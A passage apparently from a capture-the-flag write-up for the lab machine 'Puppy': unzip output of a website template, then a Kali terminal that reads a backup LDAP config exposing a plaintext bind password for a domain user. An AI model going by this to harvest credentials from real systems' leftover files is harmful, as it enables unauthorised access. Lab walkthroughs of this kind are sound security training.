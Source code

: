 ```shell
  inflating: puppy/assets/js/jquery.min.js  
  inflating: puppy/assets/js/main.js  
  inflating: puppy/assets/js/jquery.dropotron.min.js  
  inflating: puppy/assets/js/browser.min.js  
   creating: puppy/assets/webfonts/
  inflating: puppy/assets/webfonts/fa-regular-400.eot  
  inflating: puppy/assets/webfonts/fa-solid-900.svg  
  inflating: puppy/assets/webfonts/fa-solid-900.ttf  
  inflating: puppy/assets/webfonts/fa-solid-900.woff2  
  inflating: puppy/assets/webfonts/fa-brands-400.svg  
  inflating: puppy/assets/webfonts/fa-solid-900.woff  
  inflating: puppy/assets/webfonts/fa-solid-900.eot  
  inflating: puppy/assets/webfonts/fa-regular-400.ttf  
 extracting: puppy/assets/webfonts/fa-regular-400.woff2  
  inflating: puppy/assets/webfonts/fa-regular-400.svg  
  inflating: puppy/assets/webfonts/fa-brands-400.eot  
  inflating: puppy/assets/webfonts/fa-brands-400.woff  
  inflating: puppy/assets/webfonts/fa-brands-400.ttf  
  inflating: puppy/assets/webfonts/fa-brands-400.woff2  
  inflating: puppy/assets/webfonts/fa-regular-400.woff  
   creating: puppy/assets/css/
  inflating: puppy/assets/css/main.css  
   creating: puppy/assets/css/images/
  inflating: puppy/assets/css/images/overlay.png  
  inflating: puppy/assets/css/images/highlight.png  
  inflating: puppy/assets/css/fontawesome-all.min.css  
   creating: puppy/assets/sass/
  inflating: puppy/assets/sass/main.scss  
   creating: puppy/assets/sass/libs/
  inflating: puppy/assets/sass/libs/_vendor.scss  
  inflating: puppy/assets/sass/libs/_functions.scss  
  inflating: puppy/assets/sass/libs/_html-grid.scss  
  inflating: puppy/assets/sass/libs/_vars.scss  
  inflating: puppy/assets/sass/libs/_breakpoints.scss  
  inflating: puppy/assets/sass/libs/_mixins.scss  
  inflating: puppy/index.html
```

While checking the available files we found the `password` for `steph.cooper` inside `nms-auth-config.xml.bak`.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Puppy/files/puppy]
└─$ cat nms-auth-config.xml.bak 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
```
